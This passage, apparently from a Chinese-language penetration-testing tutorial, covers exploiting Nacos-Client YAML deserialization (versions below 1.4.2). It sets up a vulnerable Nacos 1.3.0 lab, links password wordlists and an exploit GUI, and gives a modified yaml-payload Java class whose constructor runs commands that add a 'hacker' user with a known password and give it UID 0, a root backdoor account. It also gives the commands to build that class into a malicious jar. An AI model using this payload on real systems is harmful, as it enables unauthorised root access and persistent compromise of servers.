 参考链接：https://www.cnblogs.com/wutou/p/17672213.html

#### 收集的密码字典

github：https://github.com/danielmiessler/SecLists

```python
git clone https://github.com/danielmiessler/SecLists.git
```

### 5.Nacos-Client Yaml反序列化

#### 环境搭建

漏洞影响版本:  `Nacos-Client < 1.4.2`

> nacos 1.3.0

```python
wget https://github.com/alibaba/nacos/releases/download/1.3.0/nacos-server-1.3.0.tar.gz
tar zxf nacos-server-1.3.0.tar.gz
cd nacos/bin
./startup.sh -m standalone
cat /root/nacos/logs/start.out
```

#### 工具准备

##### 1.yaml-payload

https://github.com/artsploit/yaml-payload/

```python
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload
vim src/artsploit/AwesomeScriptEngineFactory.java

public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("sudo useradd -m hacker -s /bin/bash;echo 'hacker:hacker123' | sudo chpasswd");
        Runtime.getRuntime().exec("usermod -u 0 -g 0 hacker");
    } catch (IOException e) {
        e.printStackTrace();
    }
}


javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

输入想要执行的命令，生成`yaml-payload.jar`

##### 2.NacosExploitGUI

github：https://github.com/charonlight/NacosExploitGUI
